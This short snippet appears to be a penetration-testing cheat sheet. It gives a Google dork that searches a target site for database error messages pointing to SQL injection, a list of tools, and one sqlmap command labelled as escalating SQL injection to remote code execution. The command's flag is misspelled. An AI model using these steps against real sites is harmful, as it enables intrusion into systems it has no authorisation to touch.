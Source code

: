 Google Dorks for sqli:- `site:target.com intext:"sql syntax near"| intext:"syntax error has occured"|intext:"incorrect syntax near"| intext:"unexcepted end of SQL commmand"| intext:"Warning mysql_query()" | intext:"Warning:pg_connect()" | intext: "internal server error" | intext:"You have an error in you SQL syntax" | intext:"Query failed" | intext:"Database error" | intext:"Invalid SQL statement" | intext:"Undefined index" | intext:"Data type mismatch" | intext:"Table not found" | intext:"Division by zero" | intext:"Statement could not be executed" | intext:"General error" | intext:"Too many connections" | intext:"Access denied"``



TOOLS
1) sqlmap 
2) gauri

-->`sqlmap -r target.txt --os-shello` -> SQLi to RCE